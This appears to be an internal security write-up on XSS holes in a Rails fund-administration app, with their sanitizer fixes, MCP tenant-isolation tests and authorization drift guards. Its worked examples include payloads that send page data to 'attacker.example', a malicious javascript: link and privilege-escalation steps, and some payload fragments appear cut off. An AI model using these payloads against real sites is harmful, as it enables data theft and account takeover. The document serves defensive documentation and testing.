





# Security coverage gaps — November 2026

> **What this is.** A walk-through of the security gaps found on 2026-11-05 when we checked the
> Cucumber security suite against the attack surface outside the
> [October 2026 review](security_review_2026_10.md). For each gap it covers how an attacker would
> exploit it (with a worked example), whether it is exploitable **today**, what the new Cucumber
> scenarios check, and what the fix is.
>
> **What was done.** First, tests only (2026-11-05 morning). The XSS scenarios failed, proving the
> bugs were live. Then the XSS was fixed in the views without removing formatting: see
> [The fix: formatting stays, scripts don't](#the-fix-formatting-stays-scripts-dont).
>
> | Group | Before the fix | Now | What the tests do |
> |---|---|---|---|
> | Stored / reflected XSS: first pass (8 tested places + 8 siblings) | **Exploitable** | Fixed | XSS-1…7 must stay green |
> | Stored XSS: second pass (FormCard titles, Json2table tables incl. the audit trail, email pages, + 9 more) | **Exploitable** | Fixed | XSS-8…10 must stay green |
> | MCP tenant / LP isolation | Safe | Safe | Lock the current behaviour so a regression fails |
> | Authorization / sign-in / CSRF drift | No new holes | — | Fail when a new exemption appears unreviewed |
> | New `.html_safe` on user text (SG-7) | No guard existed | Guarded | Fail when a view prints a new non-literal value raw |
> | SameSite cookie, open-redirect setting | Safe | Safe | Pin the settings the app silently depends on |
>
> **Still open:** none on web pages. Every raw output left in a view has a verified reason in
> `features/security/allowlists/raw_output_of_dynamic_values.yml`. Mailer views were out of scope
> (mail clients don't run scripts); see [The second pass](#the-second-pass-every-raw-output-reviewed).
>
> Tests: `features/security/stored_and_reflected_xss.feature`,
> `features/security/mcp_tenant_isolation.feature`,
> `features/security/security_surface_drift_guard.feature`.

## Contents
- [The big picture](#the-big-picture)
- [1. Cross-site scripting (XSS) — how it worked](#1-cross-site-scripting-xss--how-it-worked)
  - [Why XSS is possible here at all](#why-xss-is-possible-here-at-all)
  - [What an attacker's script can do once it runs](#what-an-attackers-script-can-do-once-it-runs)
  - [XSS-1 — GP employee → LP: remittance notes](#xss-1--gp-employee--lp-remittance-notes)
  - [XSS-2 — Company admin → every LP: KYC help text](#xss-2--company-admin--every-lp-kyc-help-text)
  - [XSS-3, 4, 5 — Employee → company admin: notes, fund details, notification body](#xss-3-4-5--employee--company-admin-notes-fund-details-notification-body)
  - [XSS-6 — Any user → company admin: your own name in a flash message](#xss-6--any-user--company-admin-your-own-name-in-a-flash-message)
  - [XSS-7 — A crafted link: `javascript:` in a Cancel button](#xss-7--a-crafted-link-javascript-in-a-cancel-button)
  - [The fix: formatting stays, scripts don't](#the-fix-formatting-stays-scripts-dont)
  - [Why not just override `html_safe`?](#why-not-just-override-html_safe)
  - [The second pass: every raw output reviewed](#the-second-pass-every-raw-output-reviewed)
  - [Proof that users see no difference](#proof-that-users-see-no-difference)
- [2. MCP isolation — safe today, now locked](#2-mcp-isolation--safe-today-now-locked)
- [3. Drift guards — stopping the October root causes from coming back](#3-drift-guards--stopping-the-october-root-causes-from-coming-back)
- [4. Settings the app silently depends on](#4-settings-the-app-silently-depends-on)
- [How to run the scenarios](#how-to-run-the-scenarios)
- [FAQ](#faq)

---

## The big picture



Solid arrows are the XSS attacks that worked until the 2026-11-05 fix. Dotted arrows are attacks
the code already stopped. The tests now make sure all of them stay stopped.

---

## 1. Cross-site scripting (XSS) — how it worked

### Why XSS is possible here at all

Rails escapes everything in `<%= … %>` by default. A note saved as `<b>hi</b>` is printed as the
literal text `&lt;b&gt;hi&lt;/b&gt;`, so the browser shows it and never runs it. Calling
`.html_safe` turns that off: it tells Rails "this string is already safe, print it raw". About 55
view lines call `.html_safe` on text a user typed.

Normally a **Content-Security-Policy** would stop injected `<script>` and `onerror=` handlers
anyway. Ours is **report-only** while it is rolled out:

```ruby
# config/initializers/content_security_policy.rb (last line)
config.content_security_policy_report_only = true
```

Report-only means the browser *logs* the violation to `/csp_reports` and **runs the script
anyway**. Until the policy is enforced, `.html_safe` on user text is a working XSS.



### What an attacker's script can do once it runs

The session cookie is `httponly: true` (`config/initializers/session_store.rb`), so a script
**cannot read the cookie itself**. The classic "steal `document.cookie`" doesn't work. That
doesn't make XSS harmless. The script runs **inside the victim's signed-in page, on our origin**,
so it can do anything the victim can do by sending requests from that page. The page even hands
it the CSRF token:

```html
<!-- every layout renders this -->
<meta name="csrf-token" content="…">
```

Illustrative payload (what the attacker would hide in a note):

```html
 r.text())
    .then(d => navigator.sendBeacon('https://attacker.example/x', d));
">
```

So the real impact is **acting as, and reading as, whoever opens the page**. When the reader is a
company admin, that's privilege escalation inside the firm. When the reader is an LP, it's their
portfolio data and their KYC.

The test payload is harmless. It only sets a marker variable, and the test checks that no element
carrying that marker reached the page as live markup:

```ruby
# features/security/step_definitions/stored_and_reflected_xss_steps.rb
XSS_PAYLOAD = '<b>Wire by Friday</b> ' \
              '' \
              '<script>window.__xss_marker=2</script>'
```

---

### XSS-1 — GP employee → LP: remittance notes

| | |
|---|---|
| **Sink** | `app/packs/funds/capital_remittances/views/capital_remittances/_show.html.erb:74`: `capital_remittance.notes.html_safe` |
| **Who can write** | Any GP employee with update rights on the capital call (plain textarea on the remittance form) |
| **Who reads it** | The LP. `capital_remittances/show.html.erb` renders `_show` for **every** viewer, the LP included |
| **Scenario** | `stored_and_reflected_xss.feature`, XSS-1 |

**Worked example.**

1. Ravi, a fund-accounting employee at Artha, edits Kiran's Q1 remittance and types this in Notes:
   `Wire by Friday r.text()).then(d=>navigator.sendBeacon('https://attacker.example',d))">`
2. Kiran (an LP) gets the call notice email and clicks through to the remittance page.
3. The page prints the note raw. The browser tries to load image `x`, fails, and runs `onerror`.
4. Kiran's own commitments list leaves Kiran's browser for `attacker.example`. Or the script
   changes Kiran's bank details for the next distribution, or uploads a document as Kiran.

Ravi needed no LP account and no extra permission, just ordinary edit rights on a call.

**Fixed.** `safe_rich_text(capital_remittance.notes)`. The textarea is plain, but the call-notice
email renders this same partial, so sanitizing (not escaping) keeps any line breaks or links someone
already typed exactly as they were.

---

### XSS-2 — Company admin → every LP: KYC help text

| | |
|---|---|
| **Sink** | Every `app/packs/misc/form_custom_fields/views/form_custom_fields/_*.html.erb`: `field.help_text&.html_safe` |
| **Who can write** | The firm's company admin (`FormTypePolicy#update?`) |
| **Who reads it** | Every investor filling the form, here the KYC form an LP opens from the emailed signed link |
| **Scenario** | XSS-2 |

**Worked example.**

1. A rogue or compromised company-admin account sets the help text of the "PAN" field on the KYC
   form to `Enter as on your card `.
2. The firm sends 400 LPs the "complete your KYC" email. Each one clicks the signed link.
3. The script runs in **every** LP's browser while they type their PAN, bank account and address
   into that same page. It can read the inputs as they're typed.

This isn't only a privilege problem. One admin account becomes 400 LP compromises, and it does so
on our domain, which the LPs trust.

**Fixed.** `safe_rich_text(field.help_text)` in all 12 field partials and the two admin listings.
Admins do use links here: 15 help texts in the production copy have `<a href=… target="_blank">`.
`target` was added to the allowlist so those links still open in a new tab.

---

### XSS-3, 4, 5 — Employee → company admin: notes, fund details, notification body

| ID | Sink | Writer |
|---|---|---|
| XSS-3 | `capital_distributions/show.html.erb:51`: `@capital_distribution.notes.html_safe` (Brakeman: **High**) | Employee with update on the distribution |
| XSS-4 | `funds/_show2.html.erb:60`: `fund.details&.html_safe` | Employee with update on the fund |
| XSS-5 | `custom_notifications/show.html.erb:54`: `@custom_notification.body.html_safe` (Brakeman: **High**) | Employee with create on the fund's notifications (`CustomNotificationPolicy#create?`). Only ERB templates are support-only. |

**Why the editor doesn't protect you.** These fields are edited with Trix, a rich-text editor
that only produces safe tags. But the **column** stores whatever the request posts. An attacker
doesn't use the editor. They send the form request directly:

```text
PATCH /capital_distributions/77
capital_distribution[notes]=<b>Q1</b>
```

**Worked example (escalation).**

1. Meena is a junior employee with update rights on distributions, but she is not a company admin.
2. She saves the payload above in a distribution's notes.
3. The company admin opens the distribution to approve it. The script runs as the admin and, with
   the admin's CSRF token, grants Meena's account the `company_admin` role, or adds a new user.
4. Meena is now a company admin, and nothing in the audit trail shows she did anything but edit
   a note.

**Fixed.** `safe_rich_text(...)` (sanitize, not escape): people do use bold and lists here, so the
scenarios also check that **bold stays bold**. That makes sure the fix keeps formatting and only
strips the script.

---

### XSS-6 — Any user → company admin: your own name in a flash message

| | |
|---|---|
| **Sink** | `app/packs/core/base/views/layouts/_alerts.html.erb`: `notice.html_safe` and `alert.html_safe` |
| **Feeds it** | 51 controller notices that interpolate a record's name, e.g. `UsersController#reset_two_factor`: `"Two-factor method reset for #{@user.full_name}. …"` |
| **Who can write** | **Anyone**: every user edits their own first name, and only presence is validated |
| **Scenario** | XSS-6 |

**Worked example.**

1. An LP user (or a disgruntled employee) changes their first name to
   ``.
2. They tell support they lost their phone. A company admin opens their user page and clicks
   **Reset 2FA Method**.
3. The app redirects to the user page with the notice
   `Two-factor method reset for  Kumar.` The flash banner prints it raw.
4. The script runs in the admin's session.

The team already knew about this class:
`InvestorAdvisorsController#switch` wraps its name in `ERB::Util.html_escape` before putting it
in a flash. The other 50 notices don't. Fixing the **partial** (escape there) fixes all 51 at
once. A search found no flash message in the app that relies on HTML.



**Fixed.** `_alerts.html.erb` now prints `<%= notice %>` and `<%= alert %>` (escaped). The turbo
streams that render the same partial with their own `notice:`/`alert:` (tasks, notes, NDA configs)
pass plain text, so they read the same. `InvestorAdvisorsController#switch` no longer escapes its
firm name itself: with the partial escaping too, "Smith & Co" would have shown as
`Smith &amp; Co`. S8 in `tenant_isolation_batch1.feature` checks that exact message.

One flash **did** carry deliberate HTML: an advisor's Access Denied alert ends with a real
"Switch to <client>" button (`WithAuthentication#access_denied_message`, worked examples H8 / X11 of
the advisor-access change). It used to append a `button_to` string to the alert text, which only worked
while the banner printed flashes raw. Now the text stays plain, and the button's data (grant id, label,
return path) goes in `flash[:switch_persona]`; `_alerts.html.erb` draws the same `button_to` from it,
with the same look, the same POST and the same return-to. The Turbo-frame denial, which builds its HTML by
hand, escapes the message explicitly. The full regression run caught this (H8, X11, NOTIF-8), which is
why the fix was reshaped rather than the button dropped.

The live toast (`users/_user_alert.html.erb`, pushed over ActionCable) is different. Some toasts
*do* carry a link or `<br>` on purpose (e.g. `FinalizePortfolioScenarioJob`: "…created.<br> View
ratios"), so it uses `safe_rich_text`, not escaping.

---

### XSS-7 — A crafted link: `javascript:` in a Cancel button

| | |
|---|---|
| **Sink** | `financial_statement_accounts/_form.html.erb:37` and `financial_statement_mapping_rules/_form.html.erb:36`: `link_to "Cancel", params[:return_to].presence \|\| …` (Brakeman: **High**) |
| **Who can trigger** | Anyone who can get a GP user to open a link |
| **Scenario** | XSS-7 (and XSS-7H, the happy path) |

This one is **reflected**: nothing is stored, and the payload is in the link itself.

**Worked example.**

1. The attacker sends the fund accountant a message: "Can you check the new account mapping?"
   with the link
   `https://app.caphive.com/financial_statement_accounts/new?fund_id=12&return_to=javascript:fetch('https://attacker.example/?'+document.body.innerText)`
2. The accountant opens it. It's a real CapHive page, they're signed in, and it looks normal.
3. They decide not to add an account and click **Cancel**.
4. Rails' `link_to` happily makes `href="javascript:…"`. Clicking it runs the script on our origin.

**Confirmed by the first run:** the scenario failed with
`expected "javascript:alert(document.cookie)" not to match /\Ajavascript:/i`. The Cancel link's
`href` really is the attacker's string.

**Fixed.** The financial-statement controllers already had `return_path(default)`, which accepts only
a path starting with a single `/`, but the forms didn't use it. It is now a view helper and both
Cancel links use it. While there, it also refuses `/\evil.example`: browsers read the backslash as a
slash, so that path also goes to evil.example. Every `return_to` the app builds is `request.fullpath`,
so real links are unchanged. XSS-7H makes sure a normal `return_to=/funds` still works.

---

### The fix: formatting stays, scripts don't

`.html_safe` was there so users could **format** their text: bold, lists, links in Trix. The fix keeps
that and removes only what can run. One small module holds the allowlists, so every place uses the
same rules:

```ruby
# app/packs/core/base/helpers/safe_html.rb (simplified)
module SafeHtml
  RICH_TEXT_TAGS       = Rails::HTML5::SafeListSanitizer.allowed_tags + %w[figure figcaption u s]
  RICH_TEXT_ATTRIBUTES = Rails::HTML5::SafeListSanitizer.allowed_attributes + %w[target]
  UI_ATTRIBUTES        = RICH_TEXT_ATTRIBUTES + %w[style id rel aria-label data-bs-toggle data-bs-placement data-bs-title]
  TABLE_TAGS           = RICH_TEXT_TAGS + %w[table thead tbody tfoot tr th td]
  TABLE_ATTRIBUTES     = RICH_TEXT_ATTRIBUTES + %w[style colspan rowspan]

  def rich_text(html)  = sanitize(html, RICH_TEXT_TAGS, RICH_TEXT_ATTRIBUTES)  # notes, bodies, help text
  def ui_markup(html)  = sanitize(html, RICH_TEXT_TAGS, UI_ATTRIBUTES)         # FormCard titles, headers
  def json_table(data) = sanitize(Json2table.get_html_table(data), TABLE_TAGS, TABLE_ATTRIBUTES)
end
# views call: safe_rich_text(x), safe_json_table(x), SafeHtml.ui_markup(x)
```

Each view swaps `x.html_safe` for `safe_rich_text(x)`:

```erb
<%# before %>  <%= @capital_distribution.notes.html_safe %>
<%# after  %>  <%= safe_rich_text(@capital_distribution.notes) %>
```

**Worked example: what the sanitizer does to a note**

| Input stored in the column | What the page now renders | Why |
|---|---|---|
| `<b>Wire by Friday</b>` | **Wire by Friday** (bold) | `b` is a safe tag: kept |
| `<div>Line 1<br>Line 2</div>` | two lines | `div`, `br` kept |
| `<a href="https://bank.example" target="_blank">portal</a>` | a link opening in a new tab | `https` + `target` kept |
| `<a href="mailto:ops@fund.example">mail</a>`, `tel:` links | working links | `mailto:` / `tel:` allowed |
| `<figure><figcaption>chart</figcaption></figure>` | the image with caption (Trix attachment) | `figure`/`figcaption` added |
| `` | `` (a broken image, no script) | `onerror` and every `on…=` dropped |
| `<script>steal()</script>` | the text `steal()`, inert | `script` tag dropped |
| `<a href="javascript:steal()">click</a>` | `click` (plain text) | `javascript:` / `data:` links dropped |
| `<svg onload="steal()">` | nothing | `svg` not allowed |

**Why this allowlist, and how we know it doesn't change what users see.** Before choosing it, every
formatted value in the production copy (port 33066) was scanned for the tags and attributes it
actually uses (2026-11-05):

| Column | Rows with HTML | Tags used | Attributes used |
|---|---|---|---|
| `custom_notifications.body` | 411 of 411 | br, div, strong, a, em, li, span, ul, blockquote, figure, img, figcaption, ol | href (https 72, mailto 53, tel 8), class, src, width, height, Trix `data-*` |
| `capital_calls.notes` | 12 of 12 | br, div, a | href (https, mailto) |
| `capital_commitments.notes` | 22 of 439 | div | — |
| `form_custom_fields.help_text` | 21 of 500 | a, br | href, **target** |
| `funds.details`, `capital_distributions.notes`, `entity_settings.kyc_docs_note` | all | div, br | — |
| `capital_remittances.notes`, `capital_remittance_payments.notes` | 0 | — | — |
| any column: `<script`, `onerror`, `onload`, `javascript:` | **0** | | |

Everything used is kept, with two additions to Rails' defaults: `figure`/`figcaption` for the four
Trix image attachments, and `target` for the help-text links. The Trix `data-trix-*` attributes are
editor-only and are dropped on display, which doesn't change the look. No stored script was found,
so nothing that exists today was being exploited.

**All the places fixed:**

| Place | View |
|---|---|
| Remittance notes (XSS-1) | `capital_remittances/_show.html.erb`, also used by the call-notice email |
| Custom-field help text (XSS-2) | all 12 `form_custom_fields/_*.html.erb` field partials, plus `form_types/_custom_field_on_index`, `form_custom_fields/_form_custom_field` |
| Distribution notes (XSS-3) | `capital_distributions/show.html.erb` |
| Fund details (XSS-4) | `funds/_show2.html.erb`, `funds/_show.html.erb` |
| Notification body (XSS-5) | `custom_notifications/show.html.erb` |
| Flash banner (XSS-6) | `layouts/_alerts.html.erb` (escaped) |
| Cancel links (XSS-7) | both financial-statement forms, via `return_path` |
| Same bug, no scenario | capital call notes, commitment notes, remittance-payment notes, KYC docs note (`documents/new`, `entities/show`), live toast (`users/_user_alert`) |

### Why not just override `html_safe`?

It was the first idea, because it would avoid touching each view. It would break the app:

- **Rails builds its own HTML with `html_safe`.** `link_to`, `form_with`, `button_to`, `content_tag`
  and the field helpers mark their output that way. A sanitizer would strip `<form>`, `<input>`,
  `<select>`, `<button>` and every `data-*` attribute that Stimulus and Turbo need.
- **Our scripts go through it.** The importmap, Turbo and nonce'd `<script>` tags. A sanitizer can't
  tell our script from an attacker's: both are `<script>`.
- **About 180 developer strings** like `'<i class="ti ti-plus"></i>'.html_safe` or
  `"data-controller=\"…\"".html_safe` would lose their attributes.
- **Speed.** `html_safe` is a flag flip that runs thousands of times a page. Sanitizing is an HTML
  parse each time.

At the moment `html_safe` runs, there is no way to know whether the string came from a user or a
developer. Only the call site knows. So the fix is at the call sites, and **SG-7** (below) makes sure
the next one can't slip in.

### The second pass: every raw output reviewed

SG-7 (below) lists every place a view prints a non-literal value raw: 213 when it was added. The
first pass fixed the places the scenarios had found. The second pass reviewed **all** of them, not
just the obvious ones, and found more holes hidden under "baseline":

| # | Hole | Who types it → who it runs for | How it worked | Fix |
|---|---|---|---|---|
| 1 | **`FormCard` titles** (175 callers) | anyone who names a record (an LP uploading a KYC file) → whoever opens it | `form_card.html.erb` printed `@title.html_safe`; callers build titles like `"Document : #{document.name}"` | `SafeHtml.ui_markup(@title)`: keeps callers' icons and tooltips, drops handlers |
| 2 | **`Json2table` tables** (20 places) | any user → admins reading the **audit trail**, staff on KYC/AML/notification/report pages | the gem builds `"<td>#{value}</td>"` and never escapes; views marked it `html_safe`. The audit trail shows `json_fields`, which holds every custom-field answer | `safe_json_table(…)`: sanitizes the table, keeping the table markup |
| 3 | **Sent email on the notification page**, and the email preview | GP-written notification body → staff and, with `?debug=1`, the LP recipient | the email's HTML was printed raw | email shown in a sandboxed `<iframe srcdoc>` (below) |
| 4 | Investor notice preview | GP → LP | `raw(details.to_plain_text)`: text typed as `` came back out as markup | printed escaped (reads the same) |
| 5 | In-app notification subjects | record names → LP / GP | `notification.subject.html_safe` | `safe_rich_text` |
| 6 | CC list tooltip | a CC address typed by a user → GP staff | `cc_emails.join('<br>').html_safe` inside `title="…"` | `safe_join(cc_emails[1..], tag.br)` |
| 7 | Grouped grids (3) | a stakeholder named `O'x' onmouseover='…'` → staff | JSON in a **single-quoted** attribute; `to_json` escapes `<>&` but not `'` | attribute escaped; the grid JS reads `dataset.gridData`, which decodes to identical JSON |
| 8 | Chat response, "Runs for …", agent chart title, commitments header, AI badge labels, 3 data attributes | model output / names → staff | interpolated into `html_safe` strings | `safe_rich_text` or `h()` |
| 9 | `FormCustomField#data_attributes` | admin → every investor on the KYC form | the model built `data-match-value='#{condition_params}'` unescaped; a `'` ended the attribute | values HTML-escaped inside the method; the JS reads them with jQuery `.attr`, which decodes |

**Checked and not holes** (reason recorded for each in the allowlist): AI slide/tear-sheet HTML
(rendered by our own escaped partials), JSON in scripts (Jbuilder and `to_json` escape `<` as
`\u003c`), Pagy navigation, translations, QR-code SVGs, tag links (`link_to` escapes each tag),
`reg_env` (fixed list), the currency code (`/\(([A-Z]{3})\)$/`).

**Emails** (46 mailer-view entries) were out of scope: mail clients don't run scripts. Some still
put model output into HTML (e.g. AI grades in the deal digest), which allows HTML injection in an
email, but not script.

#### The sandboxed email frame

```erb
<%# app/packs/core/base/views/layouts/_sandboxed_email.html.erb (simplified) %>
<iframe sandbox="allow-same-origin allow-popups allow-popups-to-escape-sandbox"
        srcdoc="<%= "<base target=\"_blank\">#{html}" %>"></iframe>
<%= javascript_tag nonce: true do %> /* size the frame to the email's height */ <% end %>
```

| Attribute | Effect |
|---|---|
| `srcdoc` | the email is its own document: its `<style>` can't leak into the app, the app's CSS can't leak into it |
| `sandbox` without `allow-scripts` | no script in the email runs; no `allow-forms`, so its forms can't submit |
| `allow-same-origin` | only lets our sizing script read the email's height (scripts inside still can't run) |
| `allow-popups` + `<base target="_blank">` | links in the email open in a new tab |

### Proof that users see no difference

Every fix was checked against the **production copy** (port 33066, 2026-11-05) by rendering each
real stored value the old way (raw) and the new way, and comparing the resulting HTML structure.
CSS whitespace (`width: 35px` vs `width:35px`) and Trix's editor-only `data-trix-*` attributes are
invisible and were ignored:

| What was rendered | Real values compared | Differences |
|---|---|---|
| `safe_rich_text`: notification bodies, call/commitment/distribution/remittance notes, fund details, help text, KYC docs note | 1,398 | **0** |
| `safe_rich_text`: remittance-payment notes | 5,000 | **0** |
| `safe_rich_text`: notification subjects | 326 | **0** |
| `safe_json_table`: notification params | 2,000 | **0** |
| `safe_json_table`: audit-trail JSON values | 3,353 | **0** |
| `safe_json_table`: fund report data | 48 | **0** |
| `FormCard` titles with real document names | 4,501 | **0** |
| Titles with stakeholder names containing `& < > "` | 80 | **0** |

No stored value anywhere contained `<script`, `onerror`, `onload` or `javascript:`, so nothing was
being exploited.

---

## 2. MCP isolation — safe today, now locked

**What MCP is.** The MCP server lets an external AI client (Claude, ChatGPT, …) read fund data
through 23 tools (`list_capital_commitments`, `get_document`, …) over an OAuth bearer token. MCP
can be switched on for LPs too (`entity_setting.mcp_allowed_roles_list` offers "investor").

**Why it's safe today.** Every tool starts from `Pundit.policy_scope(user, Model)`, the same
scope the web screens use. For example:

```ruby
# app/packs/ai/assistants/services/portfolio_assistant_data_manager.rb
def get_document(document_id: nil, name: nil)
  scope = Pundit.policy_scope(@user, Document)          # ← only documents this user may see
  document = if document_id.present?
               scope.find_by(id: document_id)
             elsif name.present?
               scope.find_by(name: name) || scope.where("name LIKE ?", "%#{name}%").first
             end
  …
```

**Why it still needed tests.** The October review marked MCP "checked and found safe" by **reading
the code**. No scenario proved it. The 23 tools are written separately, and one refactor that
writes `Document.find_by(name:)` instead of `scope.find_by(name:)` would leak every firm's
documents. Worse, a leak would be **silent**: the AI client just presents another firm's rows as
the answer.

**How an attacker would try.**

| Attack | Example tool call | What would leak if scoping broke |
|---|---|---|
| Enumerate ids | `get_document(document_id: 4182)`, then 4183, 4184… | Another firm's documents, **with a signed file URL** |
| Look up by name | `get_document(name: "side letter")` | `LIKE '%side letter%'` matches across every firm |
| Ask for everything | `list_capital_remittances(fund_ids: [mine, theirs])`, naming the other firm's fund id | Other firms' LP names and amounts |
| Hide in a total | `list_account_entries(aggregate: "count")` | A count or sum quietly including another firm's ledger |
| LP looks sideways | An LP's token calls `get_commitment_details(commitment_id: <other LP's>)` | Another LP's commitment in the same fund |

**What the tests do.** They build two complete firms (Zeta Capital and Artha, each with a fund,
LPs, commitments, a call with generated remittances, a distribution, account entries, a document
and a portfolio company), then call each tool **as Artha's admin** and **as LP Kiran**:



Every check is two-sided. Each scenario asserts the caller **does** get their own rows, and the
other firm **does** have rows of that type. So a test can never pass just because a tool returned
nothing or the table was empty.

| ID | Checks |
|---|---|
| MCP-1 | 6 list tools, called with both firms' fund ids where the tool takes `fund_ids`: every row is Artha's, at least one is returned, and none of Zeta's |
| MCP-2 / 2H | 4 get tools refuse Zeta's id and return Artha's own |
| MCP-3 | `get_document` by Zeta's unique document name finds nothing |
| MCP-4 | `list_account_entries(aggregate: "count")` equals Artha's own count |
| MCP-5 | LP Kiran's commitments and remittances lists contain only Kiran's folios, none of Meera's |
| MCP-6 | LP Kiran can't open Meera's commitment by id, but can open her own |

---

## 3. Drift guards — stopping the October root causes from coming back

The October review found 7 Critical and 20 High issues, but most came from **a few repeated
mistakes**. Each one now has a scenario, but those scenarios only prove that *the places already
fixed* stay fixed. Nothing stopped the next new action repeating the mistake.

**How such a hole gets written (realistic example).** A developer adds a quick JSON endpoint for
a Stimulus controller:

```ruby
class FundsController < ApplicationController
  after_action :verify_authorized, except: %i[index search quick_totals]   # ← added quick_totals

  def quick_totals
    fund = Fund.find(params[:id])      # no policy_scope, no authorize
    render json: fund.totals
  end
end
```

`verify_authorized` is Pundit's safety net: after the action, it raises if the action never
called `authorize`. Adding the action to `except:` switches that net off, so
`GET /funds/<any id>/quick_totals` now returns any firm's fund totals to any signed-in user. That
is exactly H8 (`portfolio_scenarios#simple_scenario`) from October.

**What the guard does.** `features/security/support/security_surface.rb` doesn't grep. It loads
every controller, and for every **routed** action it evaluates the real callback chain the way
Rails does before a request: `only:`/`except:` lists, `skip_*_action`, `if:`/`unless:`. Then it
compares the result with a reviewed allowlist:

| ID | Lists the actions/predicates where… | Allowlist (`features/security/allowlists/`) | Count today |
|---|---|---|---|
| SG-1 | Pundit's `verify_authorized` / `verify_policy_scoped` does **not** run | `verify_authorized_exempt_actions.yml` | 156 |
| SG-2 | `authenticate_user!` does **not** run (internet-facing) | `unauthenticated_actions.yml` | 142 |
| SG-3 | the CSRF token check does **not** run | `csrf_exempt_actions.yml` | 55 |
